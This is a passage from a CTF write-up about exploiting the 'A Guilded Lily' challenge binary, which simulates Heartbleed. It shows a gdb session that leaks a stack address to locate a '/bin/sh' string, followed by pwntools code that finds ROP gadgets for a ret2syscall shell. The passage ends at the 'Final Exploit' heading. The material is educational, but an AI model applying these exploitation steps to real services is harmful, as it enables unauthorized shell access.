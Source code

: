 ##### **Insert /bin/sh**

The `scanf` function as we can see before is take input from us in this format `%d:%s` and then the `write` function which we abused is leaked the data to us from the stack so we can input our `/bin/sh` string using `scanf` function and while we leak the canary address from the stack we also found multiple stack addresses are leaked so we can take one of them and calculate the offset between it and the `/bin/sh` address to get the correct address for the `/bin/sh` string 

Run the binary and add breakpoint at the write function on `main+146`

```console
(kali㉿kali)-[~/A Guilded Lily]─$ gdb-peda challenge.bin
Reading symbols from challenge.bin...
(No debugging symbols found in challenge.bin)
gdb-peda$ b *main + 146
Breakpoint 1 at 0x401ed0
gdb-peda$ r
Starting program: /home/kali/A Guilded Lily/challenge.bin 
Heartbleed Bug Simulator (CVE-2014-0160)
  info: https://heartbleed.com/

Waiting for heart beat request...
1000:/bin/sh
Sending heart beat response..
```

When we hit the breakpoint we can checkout the stack to check for all data after `/bin/sh` to find any leaked stack address we can search for address start mostly with `7fff` as we can see we find one with offset of `47` away from our `/bin/sh` so let's use it


![](/assets/img/ctf/pwn/A Guilded Lily/Exploit5.png)

so let's calculate the offset and i find that the offset is `912`

![](/assets/img/ctf/pwn/A Guilded Lily/Exploit6.png)

So now we can have the address of the `/bin/sh`

##### **Gadget Find**

As we describe before there is some perquisites have to be don to achieve ret2syscall sol let's use `ROP` in pwn tool to achieve this using this following simple code 

```python
rop = ROP(elf)
pop_rax = rop.find_gadget(['pop rax', 'ret']).address
pop_rdi = rop.find_gadget(['pop rdi', 'ret']).address
pop_rsi = rop.find_gadget(['pop rsi', 'ret']).address
pop_rdx = rop.find_gadget(['pop rdx', 'ret']).address
syscall = rop.find_gadget(['syscall', 'ret']).address
```

#### **Final Exploit**

Now let's put all together to make our final exploit
